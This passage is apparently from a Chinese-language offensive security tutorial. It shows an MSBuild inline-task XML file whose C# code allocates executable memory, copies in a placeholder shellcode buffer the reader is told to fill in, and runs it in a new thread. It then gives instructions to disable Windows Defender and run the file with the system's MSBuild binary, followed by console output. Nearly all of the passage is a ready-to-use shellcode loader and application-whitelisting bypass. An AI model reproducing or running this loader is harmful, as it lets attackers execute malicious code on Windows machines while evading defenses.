 ```xml
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask{         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute(){
              byte[] shellcode  = new byte[XXX] { c# shellcode };//修改这里
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
              MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

使用msbuild命令必须在指定的文件夹下，版本必须得是4.0。关闭Windows Defender运行32位MSBuild命令

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319>MSBuild "C:\Users\Desktop\executes shellcode.xml"
Microsoft(R) 生成引擎版本 4.7.2046.0
[Microsoft .NET Framework 版本 4.0.30319.42000]
版权所有 (C) Microsoft Corporation。保留所有权利。

生成启动时间为 2022/1/24 22:42:43。
```

